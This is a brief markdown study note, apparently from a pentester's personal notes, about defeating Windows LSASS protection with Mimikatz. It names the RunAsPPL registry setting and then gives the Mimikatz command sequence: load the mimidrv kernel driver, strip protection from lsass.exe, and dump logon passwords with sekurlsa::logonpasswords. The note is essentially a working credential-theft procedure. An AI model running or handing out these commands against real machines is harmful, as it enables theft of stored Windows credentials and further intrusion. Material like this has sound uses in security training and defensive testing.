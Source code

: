 #mimikatz 
[[Credentials#LSASS]]
- `lsass.exe` is a protected process. 
### Disabling lsass protection
- Microsoft made lsass.exe a protected process so that it can't be used to dump credentails.
- The lsass protection depends on the registry key `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`. If the `RunASPPL` is set to `1`, lsass protection is enabled.
- Mimikatz can also be used to disable lsass protection. Requires mimidrv to access kernel level access
```powershell
# load mimidrv
!+
# remote protection
!processprotect /process:lsass.exe /remove
# dump credentials
sekurlsa::logonpasswords
```